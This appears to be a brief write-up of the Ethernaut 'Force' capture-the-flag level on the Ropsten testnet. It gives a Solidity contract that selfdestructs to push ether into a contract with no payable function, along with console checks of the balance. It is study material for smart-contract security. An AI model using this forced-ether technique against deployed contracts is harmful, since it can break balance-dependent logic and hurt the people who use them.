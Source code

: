 force 

// contract has no logic built in it; empty contract

// this does NOT mean that contract cannot have a balance > 0!

// though contract is not explicitly payable, contract CAN still receive funds via the recipient of a selfdestruct being called on another function


*contracts attacking contracts*

```javascript
instance // => returns contract address (Ropsten)
await getBalance(instance) // => returns 0 indicating the contract holds no funds at the moment
```

---

to Remix!

---

create new contract! (CAUTION: disposable code ahead..)

```solidity
pragma solidity ^0.4.15;

contract ForceEth {
	// create state variable for readability
	address private forceContract; 

	// constructor
	// insert contract address as constructor parameter (returned from calling 'instance' in JS console above)
	function ForceEth(address _addr) public payable {
		forceContract = _addr;
	}

	function kill() public {
		// pass in forceContract state variable as argument for suicide
		selfdestruct(forceContract); // selfdestruct => alias for suicide
	}

	function() payable { }
}
```

- deploy using injectedWeb3 enviro - Ropsten - (passing in some eth amount to value, and address of ethernaut 'Force' contract instance)
- once contract successfully deployed, kill it!

---

back to the console!

---

```javascript
await getBalance(instance) // => returns whatever amount of eth you passed in when deploying the ForceEth contract
```

